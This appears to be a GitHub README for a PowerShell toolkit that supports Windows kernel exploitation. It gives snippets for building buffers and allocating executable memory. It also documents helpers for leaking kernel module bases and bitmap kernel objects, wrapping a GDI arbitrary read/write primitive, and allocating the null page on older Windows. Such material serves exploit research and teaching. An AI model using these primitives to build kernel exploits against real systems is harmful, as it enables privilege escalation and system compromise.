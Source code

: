 # PSKernel-Primitives

Over time I'll add PowerShell helper functions to assist in kernel exploitation.

## Common PowerShell Exploit Constructs

### Create buffer

```powershell
# Byte buffer int/hex
$Buff = [Byte[]](0x41)*255 + [Byte[]](0x42)*0xff

# Buffer includes pointer
# Takes care of endianness, may need ".ToInt32()" or ".ToInt64()"
$Buff = [Byte[]](0x41)*255 + [System.BitConverter]::GetBytes($Pointer)
```

### Pointer to alloc bytes

```powershell
# (1) Virtual alloc -> MEM_COMMIT|MEM_RESERVE & PAGE_EXECUTE_READWRITE
# Call VirtualFree to release
[IntPtr]$Pointer = [Kernel32]::VirtualAlloc([System.IntPtr]::Zero, $Bytes.Length, 0x3000, 0x40)
# (2) AllocHGlobal
[IntPtr]$Pointer = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($Bytes.Length)
[System.Runtime.InteropServices.Marshal]::Copy($Bytes, 0, $Pointer, $Bytes.Length)
```

### Read DWORD/QWORD

```powershell
# DWORD
$Val = [System.Runtime.InteropServices.Marshal]::ReadInt32($Address)

# QWORD
$Val = [System.Runtime.InteropServices.Marshal]::ReadInt64($Address)
```

### Pointer <-> structure

```powershell
# Pointer to PowerShell struct
$SomeStruct = New-Object SomeStruct
$SomeStruct_Size = [System.Runtime.InteropServices.Marshal]::SizeOf($SomeStruct) # if needed
$SomeStruct = $SomeStruct.GetType()
$SystemPointer = New-Object System.Intptr -ArgumentList $Address
$Cast = [system.runtime.interopservices.marshal]::PtrToStructure($SystemPointer,[type]$SomeStruct)

# PowerShell struct to Pointer
$SomeStructSize = [System.Runtime.InteropServices.Marshal]::SizeOf($SomeStruct)
[IntPtr]$Pointer = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($SomeStructSize)
[system.runtime.interopservices.marshal]::StructureToPtr($SomeStruct, $Pointer, $true)
```

### Add elements to custom PowerShell object

```powershell
# You can loop this is a for or while to add entries to $Result
$Result = @()
$HashTable = @{
	Element1 = "Val"
	Element2 = "Val"
	Element3 = "Val"
}
$Object = New-Object PSObject -Property $HashTable
$Result += $Result
```

### Handle to current process

```powershell
$ProcHandle = (Get-Process -Id ([System.Diagnostics.Process]::GetCurrentProcess().Id)).Handle
```

### Loop based on time

```powershell
$Timer = [diagnostics.stopwatch]::StartNew()
while ($Timer.ElapsedMilliseconds -lt 10000) {
	#...Something...
}
$Timer.Stop()
```

## Kernel Helper Functions

### Get-LoadedModules

Gets the base of all loaded modules. For Low integrity this only works pre Win 8.1.

```
C:\PS> $Modules = Get-LoadedModules
C:\PS> $Modules[4]

ImageSize    ImageName                                     ImageBase
---------    ---------                                     ---------
0x5C000      \SystemRoot\System32\drivers\CLFS.SYS    -8246323585024

C:\PS> "{0:X}" -f $Modules[0].ImageBase
FFFFF8030460B000
```

### Stage-BitmapReadWrite

Creates manager and worker bitmaps & leaks their kernel objects. This only works pre Win 10 v1607!

```
C:\PS> Stage-BitmapReadWrite

ManagerpvScan0       : -7692227456944
WorkerHandleTable    : 767454567328
ManagerKernelObj     : -7692227457024
PEB                  : 8757247991808
WorkerpvScan0        : -7692227415984
ManagerHandle        : -737866269
WorkerHandle         : 2080706172
GdiSharedHandleTable : 767454478336
ManagerHandleTable   : 767454563656
WorkerKernelObj      : -7692227416064

C:\PS> $BitMapObject = Stage-BitmapReadWrite
C:\PS> "{0:X}" -f $BitMapObject.ManagerKernelObj
FFFFF9010320F000
```

### Bitmap-Helpers

Just two small functions which act as a wrapper for GDI arbitrary r/w primitive.

```
# Read
PS C:\> Bitmap-Read -Address 0x41414141

# Write
PS C:\> Bitmap-Write -Address 0xFFFFF9010320F000 -Value 0xb33fb33fb33fb33f
```

### Alloc-NullPage

Wrapper to allocate the process null page on Win 7 32bit.

```
# Read
PS C:\> $NullPage = Alloc-NullPage -Bytes 1024
PS C:\> if ($NullPage -eq $true) {...} else {...}
```